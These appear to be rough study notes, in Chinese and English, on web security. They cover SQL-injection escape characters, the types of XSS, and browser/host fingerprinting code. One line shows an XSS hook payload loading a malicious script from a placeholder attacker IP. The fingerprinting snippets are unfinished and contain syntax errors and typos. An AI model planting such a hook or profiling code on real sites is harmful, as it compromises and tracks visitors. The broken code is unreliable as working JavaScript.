


## data cleansing数据清洗
查询参数检测,过滤,转义
- close quote string as  `'`
- statement terminator `;`
- comment `#`
- character escape` \ `

## XSS 跨站脚本攻击
XSS
反射式XSS
存储式XSS
DOM XSS


主机OS、IP、HTTP头
[Permission API](https://developer.mozilla.org/en-US/docs/Web/API/Permissions_API)


[Authentication API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Authentication_API)

```js

const getPermission = async (permission) => {
  const result = await navigator.permissions.query({name:permission})
  // state: 'granted' |'prompt' | 'denied'
  return `${permission}: ${result.state}`
}
```


`<script src="http://<IP>:3000/hook.js"></script>` 远程url上的恶意js文件
```js
const os = {
  detect() => {
    const userAgent = navigator.userAgent.toLowerCase()
    if (userAgent.indexOf("win") > -1) return "Windows";
    if (userAgent.indexOf("mac") > -1) return "MacOS";
    if (userAgent.indexOf("linux") > -1) return "Linux";
    if (userAgent.indexOf("android") > -1) return "Android";
    if (userAgent.indexOf("ios") > -1) return "iOS";
  }
}
const host = {
  os:{arch,family,name,version,software:{defaultbrower}}
}
const location: {
  city:,
  country:,
  ipadderss:,
}

const broweser = {
  getRequestHeader(){},
  // browser feature support detection
  capabilities: {
    webrtc: "RTCPeerConnection" in window,
    wetsocket: "WebSocket" in window,
    webworker: "Worker" in winodw,
    wegl: navigator.gpu,
    storage,
    svg
  }
  version,
  platform,
```